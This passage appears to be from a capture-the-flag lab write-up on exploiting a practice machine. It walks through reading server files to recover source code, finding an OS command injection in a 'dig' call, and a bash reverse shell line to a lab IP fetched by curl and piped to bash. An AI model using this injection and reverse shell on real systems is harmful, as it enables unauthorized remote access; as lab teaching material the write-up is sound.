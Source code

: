![](/images/only4you/only3.png)

So now we can use this method to help enumerate internally. The first location we can check is `/var/log/apache2/error.log`. This is generally the default logging location for `apache`. Nothing was found, so we'll move onto `nginx`. This default location is usually `/var/log/nginx/access.log`. Sure enough we get a hit.

![](/images/only4you/only4.png)

This means we're running `nginx`. So we can now look to access the [sites and configs](https://stackoverflow.com/questions/10674867/nginx-default-public-www-location).

![](/images/only4you/only5.png)

Now that we know the location of the main site, we can abuse the same exploit to obtain the main sites source code. Which we are assuming is `app.py`

![](/images/only4you/only6.png)

What's interesting is that this code is using a library to potentially send messages - `import from import sendmessage`. Normally when a message function is in a CTF, it's our path forward :D. Whether it's a function reading the message and you exploit it, or an attachment associated with the message. So to better understand how to craft something, we can see that `request.form` is being called. So we'll check for `form.py`.

![](/images/only4you/only7.png)

Looking at the code for this function, we see there is a potential `OS Command Injection` available in the `issecure` function. 

```python
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```
This is calling the function directly to the command line. Meaning we can probably put our own commands within this and get it to run. Let's test. We setup a `nc` listener on port `80` and supply a `curl` command in our web request. Sure enough, it works!

![](/images/only4you/only8.png)
![](/images/only4you/only9.png)

So, we can potentially catch a shell back in the same manner. Calling the standard `bash` shell in the web request didn't work. But we do know that `curl` worked, so why not try and `curl` down a script and pipe it to `bash`. We make our script with our bash shell inside.

```bash
sh -i >& /dev/tcp/10.10.14.2/6666 0>&1
```
Then we host the file with `http.server`. Then send our web request.

![](/images/only4you/only10.png)
![](/images/only4you/only11.png)

We get a shell back as `www-data`. We can copy over `linpeas` and `pspy` to start enumerating. `Linpeas` gives us some good information on local ports open. We have port `3000` and `8001` open locally. Normally we would like to leverage `ssh` to port forward these but that's not the only way - we can use [chisel](https://github.com/jpillora/chisel) since we don't have any `ssh` credentials yet.
